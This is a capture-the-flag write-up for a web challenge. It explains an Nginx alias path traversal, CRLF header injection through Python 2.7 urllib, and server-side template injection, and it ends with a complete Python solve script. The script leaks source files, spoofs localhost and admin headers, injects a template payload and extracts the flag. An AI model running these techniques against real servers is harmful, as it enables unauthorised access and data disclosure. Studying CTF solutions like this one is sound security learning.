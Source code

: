 open source code can be found through /static../run.sh etc
http://chall.c00k3d.xyz:9999/static../src/app/routes.py
Exploit & Writeup
Vulnerabilities

    Nginx Alias Off-by-Slash File Disclosure

    CRLF Injection in HTTP Headers

    Server-Side Template Injection (SSTI)

Exploitation Steps

    Leaking Source Code via Nginx Alias Misconfiguration

        The Nginx configuration has an alias directive issue that allows directory traversal.

        Requesting http://{{HOST}}/static../ exposes the parent directory of /static, revealing sensitive files.

        Using this, we can retrieve key files like Dockerfile and run.sh for further analysis.

    Bypassing IP Restrictions with CRLF Injection

        Python urllib2.urlopen in Python 2.7.16 is vulnerable to CRLF injection in the URL parameter.

        This allows an attacker to manipulate raw HTTP headers.

        By injecting an X-Forwarded-For header, we can spoof our IP as 127.0.0.1, bypassing localhost-only restrictions.

    User-Agent Manipulation for Full Exploitation

        The application validates requests based on the User-Agent header, which defaults to python/urllib-2.7.16.

        To bypass this check, we inject a custom User-Agent header using CRLF injection.

        An additional CRLF is needed to shift default headers into the HTTP body, ensuring the injection is correctly parsed.

🔹 Solution Script: solve.py:
└─$ cat solve.py  
#!/usr/bin/python3
import re
import requests

HOST = "http://chall.c00k3d.xyz:9999"   # external access

# source download under /home/ directory
def download(path):
    url = HOST + "/static../" + path
    resp = requests.get(url)
    print(f"[+] Downloaded {path} ({len(resp.text)} bytes)")
    return resp.text

# proxy request with header injections
def req_with_header(url, headers=dict()):
    # Build the injected HTTP request string
    new_url = "%s HTTP/1.1\r\n" % url
    for k, v in headers.items():
        new_url += "%s: %s\r\n" % (k, v)
    # trailing header to ensure request is forwarded
    new_url += "AAAA: "

    print("[*] Sending crafted request:\n", new_url)
    resp = requests.post(HOST + "/renderer/", data={"url": new_url})
    return resp.text

# ---- Exploit Flow ----

# Leak source files (for debugging / confirmation)
download("src/uwsgi.ini")
download("src/run.py")
download("src/app/__init__.py")
download("src/app/routes.py")

# Step 1: Write admin's log with template string injection
first = req_with_header(
    "http://127.0.0.1:80/renderer/admin",  # internal service runs on 80
    headers={"X-Forwarded-For": "{{ config }}"}
)

# Step 2: Trigger request without injection to retrieve response
test = req_with_header("http://127.0.0.1:80/renderer/admin")
print("[+] Admin response preview:\n", test)

# Extract ticket number from the first request’s response
tno = first.split("ticket no ")[1].split()[0].strip()
print(f"[+] Got ticket number: {tno}")

# Step 3: Use admin-like headers to fetch the ticket
second = req_with_header(
    f"http://127.0.0.1:80/renderer/admin/ticket?ticket={tno}",
    headers={
        "X-Forwarded-For": "127.0.0.1",
        "User-Agent": "AdminBrowser/1.337",
        "Content-Type": "text/plain",
        "Host": HOST[7:] + "\r\n"  # still points to external host:port
    }
)

print("[+] Final response:\n", second)

# Step 4: Try to auto-extract dynamic flag (C00K3D{...})
flag = re.search(r"C00K3D\{.*?\}", second)
if flag:
    print(f"[+] FLAG FOUND: {flag.group(0)}")
else:
    print("[!] No flag found in response")

